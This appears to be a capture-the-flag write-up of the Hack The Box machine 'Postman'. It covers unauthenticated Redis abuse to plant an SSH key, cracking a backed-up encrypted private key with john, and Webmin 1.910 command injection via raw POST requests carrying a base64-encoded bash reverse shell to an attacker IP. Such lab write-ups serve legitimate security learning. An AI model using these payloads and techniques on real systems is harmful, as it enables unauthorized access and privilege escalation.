

## Overview

Postman is an Ubuntu box running webmin and redis. Redis (Remote Dictionary Server) is an in-memory data structure store, used as a database, cache and message broker and is designed to be accessed via trusted networks and not publicly exposed. I was able to connect to this service without authenticating, write an rsa public key to the authorized_keys file, and log in as the redis user. I found a backup of Matt's encrypted private key which I was able to crack and get Matt's password. Using Matt's password I was able to log onto Webmin and trick package_updates into executing a reverse shell as the user root.

## Enumeration

**Software**

* Ubuntu 18.04.3 LTS
* OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
* Apache 2.4.29
* Redis 4.0.9
* Webmin 1.910

**Port Scan**

```
nmap -v -Pn -sT -A -p- 10.10.10.160 -oN /mnt/data/boxes/postman/_full_tcp_nmap.txt
```

* 22/tcp - ssh
* 80/tcp - http
* 6379/tcp - redis
* 10000/tcp - http

**Gobuster**

```
gobuster dir -u 10.10.10.160 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html -t 40
```

* /index.html
* /images
* /upload
* /css
* /js
* /fonts

## Steps (user)

I started by browsing to http://10.10.10.160 which brought up a page with the text "Welcome to The Cyber Geek's Personal Website!" It was a simple webpage and I was not able to find anything on the site or in the source.



Next I browsed to http://10.10.10.160:10000 which showed an error message about accessing the site via https. It also showed the hostname so i added it to /etc/hosts.



I updated the url to https and tried again, I was presented with webmin login page. I didn't have a username and password at this point moved on.



Port 6379 was identified by nmap as redis. I was able to connect using the redis-cli tool without authenticating.

```
redis-cli -h 10.10.10.160
```



I did an internet search for redis exploits and came across a [blog](https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419) that explains that it's possible to write a public rsa key to the root account providing the ability to log in via ssh.

First I needed to create an rsa key pair 

```
ssh-keygen -t rsa
```



Then I copied the contents of id_rsa.pub, padded with newlines, to rsa.txt. 

```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > rsa.txt
```

I piped the contents of rsa.txt to the redis-cli tool, set the keyname to rsa, with rsa being set to the contents of rsa.txt
```
cat rsa.txt | redis-cli -h 10.10.10.160 -x set rsa
```

Connecting to the host again via redis-cli and typing "set rsa" confirms that the last command was successful.



Changing directory to /root fails with a permission denied error. After looking at the output of the 'config get dir' command it showed that I was in /var/lib/redis'. I then tried 'config set dir /var/lib/redis/.ssh' and received an 'OK' response meaning that the directory change succeeded.

```
config set dir /var/lib/redis/.ssh
```



I could now proceed with writing rsa to the authorized_keys file.

```
config set dbfilename "authorized_keys"
save
```



I was now able to log in via ssh with the user redis, supplying the private key.

```
ssh -i id_rsa redis@10.10.10.160
```

> Note: This user did not have permission to read the user flag

After enumerating the filesystem I came across a file in /opt called id_rsa.bak which turned out to be an encrypted rsa key.

```
cat /opt/id_rsa.bak
```



I copied /opt/id_rsa to my local system so I could try and crack the password.

```
scp -i id_rsa redis@10.10.10.160:/opt/id_rsa.bak .
```

I converted id_rsa.bak to john format and saved the file as id_rsa.john

```
/usr/share/john/ssh2john.py id_rsa.bak > id_rsa.john
```

I then fed that into john using the rockyou wordlist and specifying the id_rsa.john file.

```
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john
```

John successfully cracked the password - 'computer2008'



I was able to use the switch user command to become Matt (su Matt) using the 'computer2008' password when prompted.

## Steps (root/system)

Not finding and obvious privilege escalation paths after logging in as Matt, I tried his password to log into webmin and was successful. 

The page showed the version of Webmin that was running 1.910.



I did a searchsploit search for webmin 1.910 and found 1 result.



Reviewing exploit, it looks like uses post request to update with a reverse shell 



```
'data' => "u=acl/apt&u= | <payload>&ok_top=Update Selected Packages"
```

The exploit is using a post request to run commands, I started simple by trying the id command (bash -c id).

```
POST /package-updates/update.cgi HTTP/1.1
Host: 10.10.10.160:10000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.160:10000/package-updates/?xnavigation=1
Connection: close
Cookie: redirect=1; testing=1; sid=ab017430a59fdc2c15a3548e6843bb27
Content-Type: application/x-www-form-urlencoded
Content-Length: 63

u=acl%2Fapt&u=+|+bash+-c+id%26ok_top=Update+Selected+Packages
```




With the basic test working, I moved on to adding a command to create a reverse shell. I tried commands and wasn't having any luck. After reviwaing the metasploit exploit again, I noticed it base64 encodes the payload first, then decodes and executes it on the target box. 

I base64 decoded the command and then combined this with the command found in the exploit. This base64 encoded command is decoded then executed with bash -i

```
echo 'bash -i >& /dev/tcp/10.10.14.12/4200 0>&1' | base64 
bash -c "echo 'YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80MjAwIDA%2bJjEK' | base64 -d | bash -i"
```




I updated the post request in burp with the new command (url encoded)

```
POST /package-updates/update.cgi HTTP/1.1
Host: 10.10.10.160:10000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.160:10000/package-updates/?xnavigation=1
Connection: close
Cookie: redirect=1; testing=1; sid=ab017430a59fdc2c15a3548e6843bb27
Content-Type: application/x-www-form-urlencoded
Content-Length: 152

u=acl%2Fapt&u=+|+bash+-c+"echo+'YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80MjAwIDA%2bJjEK'+|+base64+-d+|+bash+-i"&ok_top=Update+Selected+Packages
```

After sending the command I received shell as root.



